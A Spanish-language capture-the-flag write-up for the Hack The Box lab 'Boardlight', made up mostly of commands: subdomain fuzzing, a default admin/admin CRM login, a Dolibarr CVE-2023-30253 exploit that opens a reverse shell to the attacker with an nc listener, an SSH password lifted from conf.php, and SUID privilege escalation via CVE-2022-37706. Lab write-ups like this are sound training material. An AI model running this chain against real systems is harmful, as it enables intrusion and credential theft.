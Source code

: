 Maquina: Boardlight

Autor:

Dificultad: Facil

![Captura de pantalla 2024-11-22 193110](https://github.com/user-attachments/assets/50597a1c-5ff7-44f4-959d-8c050b6351fc)

Iniciamos la máquina y verificamos la conexión

ping 10.129.135.122 -c 1

![Captura de pantalla 2024-11-22 172418](https://github.com/user-attachments/assets/c9c51461-5ddf-40fd-bc37-f68b81b42804)

Enumeramos la maquina con nmap 

nmap -sV 10.129.135.122

![Captura de pantalla 2024-11-22 172457](https://github.com/user-attachments/assets/3706ea38-97c1-41ea-aaed-23b3fc4e8e09)

añadimos la ip para que nos deje entrar en la web

echo 10.129.231.37 board.htb | sudo tee -a /etc/hosts

En la web muestra 'Bienvenido a BOARDLIGHT' mantenida por Board.htb.

wfuzz -c --hl=517  -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.board.htb" http://board.htb/

encontramos el subdominio crm lo añadimos a /etc/hosts/

![Captura de pantalla 2024-11-22 185430](https://github.com/user-attachments/assets/72c2670b-715b-462d-88a2-45a685d14767)

nano /etc/hosts/

10.129.231.37 board.htb crm.board.htb

http://crm.board.htb/

![Captura de pantalla 2024-11-22 185530](https://github.com/user-attachments/assets/b0ca9bc2-5681-497d-8f25-71fce2e490d1)

Es un panel de login por lo que probamos las credenciales más comunes. Probamos admin tanto para contraseña y usuario y nos deja iniciar sesión correctamente.

![Captura de pantalla 2024-11-22 185541](https://github.com/user-attachments/assets/88ec3787-919b-4d86-9634-0c9f66c78c6f)

Revisamos la versión por Internet si tiene alguna vulnerabilidad. Efectivamente tiene una vulnerabilidad que intentaremos explotar haciendo una Reverse Shell.

"Copiemos esta versión Dolibarr 17.0.0 y busquemos el exploit en Google, y encontrarás un exploit CVE-2023–30253.

https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

![Captura de pantalla 2024-11-22 185358](https://github.com/user-attachments/assets/570b2a4d-570f-4ff9-a3a7-9dbffa7f35c2)

Ejecutamos el script mientras nos ponemos en escucha para conectarnos.

python3 exploit.py http://crm.board.htb admin admin 10.10.14.101 4444

![Captura de pantalla 2024-11-22 185804](https://github.com/user-attachments/assets/b6d1e5b0-2160-4ac7-83e0-721f05990401)

nc -lvnp 4444

![Captura de pantalla 2024-11-22 185811](https://github.com/user-attachments/assets/65d8e1ef-1d9b-4a45-960d-f17d71cc7cac)

Revisamos todos los archivos y encontramos la contraseña ssh en el archivo conf.php. Vamos a comprobar el nombre de usuario. 

![Captura de pantalla 2024-11-22 185943](https://github.com/user-attachments/assets/09bfdc4c-6eac-424f-8dbc-fbeaa5c6930b)

Vemos que hay un directorio larissa en cd /home/.

cd ..

cd ..

cd conf

cat conf.php

![Captura de pantalla 2024-11-22 190204](https://github.com/user-attachments/assets/d4f15947-6adf-4d8a-9854-d58021af2fc9)

nos conectamos por ssh con larissa 
serverfun2$2023!!

![Captura de pantalla 2024-11-22 190435](https://github.com/user-attachments/assets/57e90c65-13b4-4d88-8e36-136286cd4a2e)

ls

cat user.txt

![Captura de pantalla 2024-11-22 190459](https://github.com/user-attachments/assets/af32936b-9752-4c40-9da7-a8f4218233c5)

find / -perm -4000 -user root 2>/dev/null | xargs ls -l

![Captura de pantalla 2024-11-22 191509](https://github.com/user-attachments/assets/5a3b01b7-3a71-4099-80d3-d906a24fcf4e)

![Captura de pantalla 2024-11-22 191538](https://github.com/user-attachments/assets/409aeec7-2546-4c93-b440-e6e2a1fea5c3)

SUID exploited using CVE-2022–37706

Buscamos el código del script en GitHub, lo copiamos y lo pegamos en un nuevo archivo exploit.sh en el directorio del usuario Larissa.

nano exploit.sh

Para ejecutar el script, necesitamos otorgarle permisos de ejecución

chmod +x exploit.sh

![Captura de pantalla 2024-11-22 192430](https://github.com/user-attachments/assets/5d37fe12-8fa4-4a5e-90b6-5e9198c3a781)

Ejecutamos el script 

bash exploit.sh  

![Captura de pantalla 2024-11-22 192500](https://github.com/user-attachments/assets/c9a489b1-2703-4215-84ff-d20aa4cf0f24)

./exploit.sh

ls

whoami

cd..

cd..

ls

cd root

cat root.txt

![Captura de pantalla 2024-11-22 192612](https://github.com/user-attachments/assets/67a8507a-93f1-442a-9007-9d241d8da05b)

